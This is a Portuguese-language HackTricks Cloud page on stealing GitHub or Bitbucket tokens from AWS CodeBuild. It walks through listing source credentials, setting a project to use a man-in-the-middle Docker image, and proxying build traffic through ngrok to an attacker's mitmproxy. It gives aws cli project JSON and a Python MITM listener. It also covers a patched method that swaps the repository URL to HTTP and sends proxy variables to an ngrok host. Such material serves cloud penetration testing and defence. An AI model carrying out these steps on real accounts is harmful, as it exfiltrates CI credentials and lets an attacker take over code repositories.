 # AWS Codebuild - Vazamento de Token

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Participe do grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou do grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Recuperar Tokens Configurados do Github/Bitbucket

Primeiro, verifique se há credenciais de origem configuradas que você poderia vazar:
```bash
aws codebuild list-source-credentials
```
### Via Imagem Docker

Se você descobrir que a autenticação, por exemplo, no Github está configurada na conta, você pode **exfiltrar** esse **acesso** (**token GH ou token OAuth**) fazendo o Codebuild **usar uma imagem docker específica** para executar a build do projeto.

Para isso, você pode **criar um novo projeto Codebuild** ou alterar o **ambiente** de um existente para definir a **Imagem Docker**.

A imagem Docker que você pode usar é [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Esta é uma imagem Docker muito básica que configurará as **variáveis de ambiente `https_proxy`**, **`http_proxy`** e **`SSL_CERT_FILE`**. Isso permitirá que você intercepte a maior parte do tráfego do host indicado em **`https_proxy`** e **`http_proxy`** e confie no CERT SSL indicado em **`SSL_CERT_FILE`**.

1. **Crie e faça upload da sua própria imagem Docker MitM**
* Siga as instruções do repositório para configurar o endereço IP do seu proxy e configurar seu certificado SSL e **construir a imagem docker**.
* **NÃO DEFINA `http_proxy`** para não interceptar solicitações ao endpoint de metadados.
* Você pode usar **`ngrok`** como `ngrok tcp 4444` para definir o proxy para o seu host
* Uma vez que você tenha a imagem Docker construída, **faça upload dela para um repositório público** (Dockerhub, ECR...)
2. **Defina o ambiente**
* Crie um **novo projeto Codebuild** ou **modifique** o ambiente de um existente.
* Configure o projeto para usar a **imagem Docker gerada anteriormente**

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Defina o proxy MitM no seu host**

* Como indicado no **repositório Github**, você poderia usar algo como:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
A **versão do mitmproxy utilizada foi a 9.0.1**, foi relatado que com a versão 10 isso pode não funcionar.
{% endhint %}

4. **Execute a compilação e capture as credenciais**

*   Você pode ver o token no cabeçalho **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Isso também poderia ser feito a partir do aws cli com algo como

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via protocolo HTTP~~

{% hint style="success" %}
**Esta vulnerabilidade foi corrigida pela AWS em algum momento da semana de 20 de fevereiro de 2023 (acho que na sexta-feira). Então, um atacante não pode mais abusar dela :)**
{% endhint %}

Um atacante com **permissões elevadas em um CodeBuild poderia vazar o token do Github/Bitbucket** configurado ou, se as permissões foram configuradas via OAuth, o **token OAuth temporário usado para acessar o código**.

* Um atacante poderia adicionar as variáveis de ambiente **http\_proxy** e **https\_proxy** ao projeto CodeBuild apontando para sua máquina (por exemplo, `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Em seguida, alterar a URL do repositório github para usar HTTP em vez de HTTPS, por exemplo: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Depois, executar o exemplo básico de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na porta indicada pelas variáveis de proxy (http\_proxy e https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Finalmente, clique em **Build the project**, as **credenciais** serão **enviadas em texto claro** (base64) para a porta mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Agora um atacante poderá usar o token de sua máquina, listar todos os privilégios que possui e (ab)usar mais facilmente do que usando o serviço CodeBuild diretamente.
{% endhint %}

<details>

<summary><strong>Aprenda AWS hacking do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**merchandising oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo do** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
